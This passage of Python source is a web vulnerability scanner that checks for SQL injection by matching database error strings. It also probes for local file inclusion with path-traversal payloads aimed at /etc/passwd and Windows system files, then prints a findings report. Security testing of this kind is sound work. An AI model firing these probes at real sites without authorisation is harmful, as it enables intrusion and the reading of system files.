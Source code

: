 ```python
                data = {'id': payload, 'username': payload, 'search': payload}
                
                try:
                    if method.upper() == 'POST':
                        response = self.session.post(form_url, data=data)
                    else:
                        response = self.session.get(form_url, params=data)
                    
                    # Check for SQL error messages
                    error_patterns = [
                        'mysql_fetch', 'ORA-01756', 'Microsoft OLE DB',
                        'SQLServer JDBC Driver', 'PostgreSQL query failed'
                    ]
                    
                    for pattern in error_patterns:
                        if pattern.lower() in response.text.lower():
                            self.vulnerabilities.append(f"SQL injection found at {form_url}")
                            break
                            
                except requests.RequestException:
                    pass
    
    def test_lfi(self):
        """Test for Local File Inclusion vulnerabilities"""
        lfi_payloads = [
            "../../../../etc/passwd",
            "..\\..\\..\\..\\windows\\system32\\drivers\\etc\\hosts",
            "/etc/passwd",
            "C:\\windows\\system32\\drivers\\etc\\hosts"
        ]
        
        # Test common parameter names
        params = ['file', 'page', 'include', 'path', 'template']
        
        for param in params:
            for payload in lfi_payloads:
                test_url = f"{self.target_url}?{param}={payload}"
                response = self.session.get(test_url)
                
                # Check for file inclusion indicators
                if ('root:' in response.text or 
                    '[fonts]' in response.text or 
                    'bin/bash' in response.text):
                    self.vulnerabilities.append(f"LFI found: {test_url}")
    
    def generate_report(self):
        """Generate vulnerability report"""
        print("\n" + "="*50)
        print("WEB APPLICATION SECURITY SCAN REPORT")
        print("="*50)
        print(f"Target: {self.target_url}")
        print(f"Forms found: {len(self.found_forms)}")
        print(f"Vulnerabilities found: {len(self.vulnerabilities)}")
        
        if self.vulnerabilities:
            print("\nVulnerabilities:")
            for vuln in self.vulnerabilities:
                print(f"- {vuln}")
        else:
            print("\nNo vulnerabilities detected.")

# Usage
scanner = WebAppScanner("http://target-webapp.com")
```